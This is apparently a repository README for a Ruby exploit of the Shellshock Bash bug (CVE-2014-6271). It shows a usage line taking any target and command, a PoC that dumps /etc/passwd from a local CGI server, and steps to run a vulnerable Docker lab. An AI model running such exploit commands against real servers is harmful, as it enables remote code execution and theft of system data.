

# CVE-2014-6271 | Shellshock

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the ForceCommand feature in OpenSSH sshd, the mod_cgi and mod_cgid modules in the Apache HTTP Server, scripts executed by unspecified DHCP clients, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka "ShellShock." NOTE: the original fix for this issue was incorrect; CVE-2014-7169 has been assigned to cover the vulnerability that is still present after the incorrect fix.

# Usage
**Exploit**
```
ruby cve-2014-6271_exploit.rb <TARGET> [CMD]
```

## PoC

```
-> ruby cve-2014-6271_exploit.rb http://localhost:8080/cgi-bin/stats "cat /etc/passwd"
[*] Sending Shellshock Exploit..
[+] Server response:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

## Reproduce

- Install docker vulnerable container
```
docker pull hmlio/vaas-cve-2014-6271
```

- Run the container
```
docker run -d -p 8080:80 hmlio/vaas-cve-2014-6271
```

- Browse the vulnerable server
```
http://your-ip:8080/
```

- Exploit!




# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
- https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec

